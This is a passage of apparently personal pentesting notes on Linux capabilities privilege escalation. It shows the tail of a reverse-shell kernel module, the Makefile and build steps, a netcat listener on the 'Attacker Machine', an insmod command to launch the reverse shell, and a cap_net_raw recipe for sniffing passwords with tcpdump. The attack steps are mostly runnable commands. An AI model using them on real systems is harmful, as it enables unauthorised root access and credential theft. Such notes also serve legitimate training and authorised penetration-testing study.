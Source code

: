```c title:reverse-shell.c
static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

```bash
mkdir lib/modules -p
```

```bash
cp -a /lib/modules/$(uname -r)/ lib/modules/$(uname -r)
```

```bash
vim Makefile
```

- make sure you are using tab functionality instead of spaces after all and clean to avoid running into issues
```Makefile title:Makefile
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

```bash
make
```

- In your Attacker Machine
```bash
nc -nlvp 443
```

```bash
insmod reverse-shell.ko #Launch the reverse shell
```

## cap_net_raw

#### Miscofiguring

```bash
setcap cap_net_raw+ep /usr/sbin/tcpdump
```

#### Exploiting

- Maybe you can sniff the password
```bash
tcpdump -n tcp
```

## Reference


https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

https://tbhaxor.com/series/

https://www.armourinfosec.com/

https://chatgpt.com/

https://redfoxsec.com/blog/exploiting-linux-capabilities-capsysmodule-exploits/
